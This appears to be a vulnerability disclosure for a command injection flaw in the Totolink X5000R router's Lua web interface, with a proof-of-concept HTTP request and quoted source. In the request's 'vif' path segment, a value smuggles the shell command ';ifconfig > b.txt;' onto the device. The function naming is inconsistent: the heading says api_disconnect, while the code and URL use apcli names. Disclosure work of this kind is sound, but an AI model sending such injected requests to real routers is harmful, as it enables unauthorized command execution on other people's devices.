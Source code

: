 # Command injection vulnerability in api_disconnect function
### description
Vendor: Totolink 

Version: X5000R (latest version)  

Detail: There is a command injection vulnerability in api_disconnect function in mtkwifi.lua

![图片](https://github.com/user-attachments/assets/faa44637-5d28-493c-b74f-0b8ffc68741a)

![图片](https://github.com/user-attachments/assets/d8b2ccfa-4b8e-486a-a2b1-1c5c77852ea6)

We use Burpsuite to attack, the effect is as follows.
![图片](https://github.com/user-attachments/assets/be1b492f-9735-48fa-b0c8-94f70e1cdf4b)
![图片](https://github.com/user-attachments/assets/1764479d-320c-4f22-9deb-ef20a74b1203)


### poc
```
GET /cgi-bin/luci/admin/mtk/wifi/apcli_connect/MT7915D.1.1/;ifconfig > b.txt;  HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 0

```
Here we set the arguments "dev" as "MT7915D.1.1" and "vif" as ";ifconfig > b.txt;", and there will be a file named "b.txt" in /www/cgi-bin/

### attention
To expolit successfully, we need the correct devname to pass the check.
```
function apcli_disconnect(dev, vif)
    -- dev_vif can be
    --  1. mt7620.apcli0         # simple case
    --  2. mt7615e.1.apclix0     # multi-card
    --  3. mt7615e.1.2G.apclix0  # multi-card & multi-profile
    local devname,vifname = dev, vif
    debug_write("devname=", dev, "vifname", vif)
    debug_write(devname)
    debug_write(vifname)
    local profiles = mtkwifi.search_dev_and_profile()  --------------> here 
    debug_write(profiles[devname])
    assert(profiles[devname])  --------------> here
```
we set the dev with "MT7915D.1.1" in the poc.


